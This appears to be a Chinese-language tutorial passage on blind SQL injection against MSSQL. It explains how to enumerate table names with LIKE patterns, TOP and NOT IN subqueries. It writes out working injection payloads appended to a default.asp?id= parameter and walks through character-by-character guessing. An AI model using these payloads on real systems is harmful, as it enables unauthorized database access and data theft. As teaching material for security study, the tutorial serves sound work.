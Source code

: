 MSSQL 所用的正则表达式并不是标准正则表达式 ，该表达式使用 like 关键词

default.asp?id=1 AND 1=(SELECT TOP 1 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" and table_name LIKE '[a-z]%' )

该查询语句中， select top 1 是一个组合哦，不要看错了。

如果要查询其它的表名，由于不能像 mysql 哪样用 limit x,1 ，只能使用 table_name not in (select top x table_name from information_schema.tables) 意义是：表名没有在前 x 行里，其实查询的就是第 x+1 行。

例如  查询第二行的表名：

default.asp?id=1 AND 1=(SELECT TOP 1 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" and table_name NOT IN ( SELECT TOP 1 table_name FROM information_schema.tables) and table_name LIKE '[a-z]%' )

表达式的顺序：

'n[a-z]%' -> 'ne[a-z]%' -> 'new[a-z]%' -> 'news[a-z]%' -> TRUE

之所以表达式 news[a-z] 查询后返回正确是应为 % 代表 0-n 个字符，使用 "_" 则只能代表一个字符。故确认后续是否还有字符克用如下表达式

'news%' TRUE -> 'news_' FALSE

同理可以用相同的方法获取字段，值。这里就不再详细描述了。








